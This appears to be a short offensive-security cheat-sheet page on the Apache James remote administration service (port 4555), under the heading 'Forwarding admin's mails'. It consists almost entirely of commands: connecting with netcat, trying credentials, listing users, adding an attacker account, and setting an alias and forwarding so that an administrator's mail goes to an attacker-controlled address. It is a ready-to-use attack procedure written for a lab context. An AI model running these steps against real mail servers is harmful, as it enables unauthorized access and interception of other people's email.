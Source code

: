 # 🟡 RSIP

### <mark style="color:orange;">Forwarding admin’s mails</mark> <a href="#forwarding-admin-s-mails" id="forwarding-admin-s-mails"></a>

```bash
# Connection through netcat (can test for creds)
nc -nv <IP> 4555

# Get commands
HELP

# Get users (hopefully an admin?)
listusers

# Add user
adduser haax haaxpass

# Set an alias for our user
setalias mailadmin haax

# Set mail forwarding
setforwarding mailadmin haax@lab.local
```
